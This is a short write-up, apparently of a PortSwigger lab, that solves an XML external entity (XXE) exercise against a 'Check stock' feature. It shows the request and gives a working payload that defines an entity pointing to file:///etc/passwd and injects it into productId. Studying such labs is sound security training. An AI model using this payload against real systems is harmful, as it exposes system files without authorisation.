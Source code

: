 # [Lab: Exploiting XXE using external entities to retrieve files](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)

## Lab

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the  `/etc/passwd`  file.

## Analysis

check stock request:

```http
POST /product/stock HTTP/1.1
Content-Length: 107
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

the body:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```

## tools

- burpsuite scanner: detected `Issue: XML external entity injection`

## Solutions

Exploit:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    &xxe;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
